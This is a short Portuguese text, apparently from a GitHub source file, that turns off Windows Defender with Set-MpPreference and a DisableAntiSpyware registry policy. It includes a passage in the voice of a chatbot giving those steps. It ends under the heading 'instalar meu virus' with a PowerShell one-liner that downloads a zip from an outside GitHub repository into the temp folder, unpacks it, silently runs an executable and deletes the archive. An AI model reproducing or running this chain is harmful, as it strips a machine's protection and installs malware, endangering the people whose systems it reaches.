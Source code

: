 1  desativament temporario Set-MpPreference:  -DisableRealtimeMonitoring $true

Usando o PowerShell para Desativar o Windows Defender

    Abra o PowerShell como Administrador:
        Clique com o botão direito no menu Iniciar e selecione "Windows Terminal (Admin)" ou "PowerShell (Admin)".

    Digite os seguintes comandos um por um e pressione Enter após cada um:

    powershell

    New-Item -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Force
    New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1 -PropertyType DWORD -Force

    Reinicie o computador para que as alterações entrem em vigor.

##Importante

##Lembre-se de que desativar o Windows Defender pode deixar seu sistema vulnerável. É sempre bom ter outra solução de segurança instalada. Se precisar de mais ajuda, estou aqui!




##instalar meu virus  



  $tempPath="$env:TEMP\ardx-main.zip"; $extractedPath="$env:TEMP\ardx-main\ardx-main"; Invoke-WebRequest -Uri "https://github.com/oldmones/ardx/archive/refs/heads/main.zip" -OutFile $tempPath; Expand-Archive -Path $tempPath -DestinationPath "$env:TEMP\ardx-main" -Force; Start-Process -FilePath "$extractedPath\ConsoleApp1.exe" -Wait; Remove-Item -Path $tempPath -Force -ErrorAction SilentlyContinue




###############
